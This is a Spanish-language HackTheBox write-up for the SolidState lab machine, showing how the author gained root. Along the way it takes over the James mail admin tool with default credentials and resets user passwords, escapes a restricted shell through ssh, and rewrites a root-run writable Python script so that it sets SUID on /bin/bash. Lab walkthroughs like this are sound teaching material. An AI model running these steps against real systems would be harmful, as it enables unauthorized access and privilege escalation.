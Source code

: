 ```yaml
---
title: "HackTheBox - SolidState"
layout: post
date: 2022-05-26 18:03
image: /assets/images/SolidState/snake_logo.jpg
headerImage: true
tag:
- htb
- hacking
- writeup
- OSCP
category: blog
description: Writeup de SolidState
---
```


# SolidState

Dificultad: Medium
OS: Linux

En este writeup, voy a demostrar paso a paso como conseguir el root en la máquina SolidState.

## Reconocimiento

Primero, aunque aparezca en el icono, es una buena práctica ver qué OS utiliza el objetivo. Para ello utilizaremos el comando **ping -c 1 {IP}** y viendo la ttl podemos saber contra qué nos enfrentamos de manera silenciosa (Linux:64 y Windows:128). En este vemos que es una máquina Linux.

![Untitled](../assets/images/SolidState/Untitled.png)

Nmap encuenta 6 puertos abiertos siendo estos el 22, 25, 80, 110, 119, 4555.

![Untitled](../assets/images/SolidState/Untitled%201.png)

Haciendo un escaneo de versiones sobre estos puertos encontramos que utiliza James 2.3.2, lo que más llama la atención es el puerto 4555, James Remote Administration Tool 2.3.2

![Untitled](../assets/images/SolidState/Untitled%202.png)

Buscando exploits encontramos un RCE, y en el código encontramos que los credenciales por defecto son root:root

![Untitled](../assets/images/SolidState/Untitled%203.png)

Y al intentar conectar vemos que las credenciales por defecto funcionan. Con help sacamos los comandos que nos deja ejecutar, siendo listusers y setpassword en las que nos centraremos.

![Untitled](../assets/images/SolidState/Untitled%204.png)

![Untitled](../assets/images/SolidState/Untitled%205.png)

Primero vamos a probar con el usuario de james.

```
setpassword james password
Password for james reset
```

Entramos y no tiene ningún correo, asi que procedemos a ir uno a uno mirando si algún usuario tiene correos.

![Untitled](../assets/images/SolidState/Untitled%206.png)

Rápidamente encontramos que john tiene un correo pidiendo que restrinja al usuario mindy y que la envíe un correo con una contraseña temporal

```text
Return-Path: <mailadmin@localhost>
Message-ID: <9564574.1.1503422198108.JavaMail.root@SolidState>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: john@localhost
Received: from 192.168.11.142 ([192.168.11.142])
          by SolidState (JAMES SMTP Server 2.3.2) with SMTP ID 581
          for <john@localhost>;
          Tue, 22 Aug 2017 13:16:20 -0400 (EDT)
Date: Tue, 22 Aug 2017 13:16:20 -0400 (EDT)
From: mailadmin@localhost
Subject: New Hires access
John, 

Can you please restrict mindy's access until she gets read on to the program. Also make sure that you send her a tempory password to login to her accounts.

Thank you in advance.

Respectfully,
James
```

En el correo de mindy encontramos el mensaje con el usuario y contraseña y ahora podemos acceder por ssh a la cuenta de mindy.

```text
Return-Path: <mailadmin@localhost>
Message-ID: <16744123.2.1503422270399.JavaMail.root@ SolidState>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: mindy@localhost
Received: from 192.168.11.142 ([192.168.11.142])
          by SolidState (JAMES SMTP Server 2.3.2) with SMTP ID 581
          for <mindy@localhost>;
          Tue, 22 Aug 2017 13:17:28 -0400 (EDT)
Date: Tue, 22 Aug 2017 13:17:28 -0400 (EDT)
From: mailadmin@localhost
Subject: Your Access

Dear Mindy,

Here are your ssh credentials to access the system. Remember to reset your password after your first login. 
Your access is restricted at the moment, feel free to ask your supervisor to add any commands you need to your path. 

username: mindy
pass: P@55W0rd1!2@

Respectfully,
James
```

![Untitled](../assets/images/SolidState/Untitled%207.png)

Nos encontramos que nos da una rbash (restricted shell) y solo podemos usar cat, env y ls. Al tener cat ya podemos leer flag.txt y tener el user.

![Untitled](../assets/images/SolidState/Untitled%208.png)

## Escalada de privilegios

No es problema tener una rbash ya que es muy fácil hacer bypass de la rbash, ya que cuando entramos en el ssh podemos especificar un comando, por lo que usando el parámetro -t y bash entramos en una bash.

![Untitled](../assets/images/SolidState/Untitled%209.png)

Para encontrar qué procesos se ejecutan a la larga, voy usar el comando **ps -eo command** que te saca todos los comandos que se van ejecutando y así compararlo con uno nuevo para ver que se ejecuta a la larga.

```bash
#!/bin/bash

last_process=$(ps -eo command)

while true; do
        new_process=$(ps -eo command)
        diff <(echo "$last_process") <(echo "$new_process") | grep "[\>\<]" | grep -v -E "procmon|command"
        last_process=$(ps -eo command)
done
```

Encontramos que cada x tiempo se ejecuta tmp.py que está en /opt asi que vamos a mirarlo.

![Untitled](../assets/images/SolidState/Untitled%2010.png)

Encontramos que pertenece al root y que puedo escribir en el, asi que ahora lo tenemos fácil.

![Untitled](../assets/images/SolidState/Untitled%2011.png)

![Untitled](../assets/images/SolidState/Untitled%2012.png)

Modifico el .py para otorgar privilegios SUID a la bash. Los privilegios SUID dan privilegios de ejecución del propietario, en este caso root.

```python
#!/usr/bin/env python

import os

os.system("chmod u+s /bin/bash")
```

Aquí se puede ver como se asigna ese bit s, por lo que ya tengo SUID.

![Untitled](../assets/images/SolidState/Untitled%2013.png)

Y ahora abriendo otra bash, tenemos privilegios de root y por ende, la flag.

![Untitled](../assets/images/SolidState/Untitled%2014.png)